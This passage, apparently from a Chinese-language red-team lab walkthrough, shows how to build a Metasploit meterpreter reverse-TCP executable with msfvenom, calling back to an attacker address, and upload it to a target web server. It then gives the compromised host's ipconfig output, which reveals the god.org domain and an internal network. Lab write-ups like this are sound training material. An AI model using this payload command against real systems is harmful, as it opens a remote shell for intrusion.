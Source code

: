 ### 制作一个msf木马并上传至目标服务器，并设置连接

### `msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.55.123 LPORT=5678 -f exe -o shell.exe`

### <img src="https://cdn.jsdelivr.net/gh/DarkLord-W/CloudImages@main/images/1a559cb4fc3f9080f1027fc14928b1fc.png" alt="1a559cb4fc3f9080f1027fc14928b1fc.png" width="850" height="392" class="jop-noMdConv">

### **PS：meterpretre shell如果乱码，可以输入`chcp 65001`去除乱码**

### 查看主机信息，可以看到该主机属于`god.org`域中，内网网卡ip为192.168.52.143

```
C:\phpStudy\WWW>ipconfig /all
ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : stu1
   Primary Dns Suffix  . . . . . . . : god.org
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : god.org

Ethernet adapter �������� 5:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection #3
   Physical Address. . . . . . . . . : 00-0C-29-A7-C1-B2
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::98c:bf05:1e5c:5fbb%26(Preferred) 
   IPv4 Address. . . . . . . . . . . : 192.168.55.130(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 
   DHCPv6 IAID . . . . . . . . . . . : 721423401
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-24-F3-A2-4E-00-0C-29-A7-C1-A8
   DNS Servers . . . . . . . . . . . : fec0:0:0:ffff::1%1
                                       fec0:0:0:ffff::2%1
                                       fec0:0:0:ffff::3%1
   NetBIOS over Tcpip. . . . . . . . : Enabled

Ethernet adapter ��������:

   Connection-specific DNS Suffix  . : 
   Description . . . . . . . . . . . : Intel(R) PRO/1000 MT Network Connection
   Physical Address. . . . . . . . . : 00-0C-29-A7-C1-A8
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   Link-local IPv6 Address . . . . . : fe80::fcff:cf71:1487:9c27%11(Preferred) 
   IPv4 Address. . . . . . . . . . . : 192.168.52.143(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.52.2
   DHCPv6 IAID . . . . . . . . . . . : 234884137
   DHCPv6 Client DUID. . . . . . . . : 00-01-00-01-24-F3-A2-4E-00-0C-29-A7-C1-A8
   DNS Servers . . . . . . . . . . . : 192.168.52.138
                                       8.8.8.8
   NetBIOS over Tcpip. . . . . . . . : Enabled
```
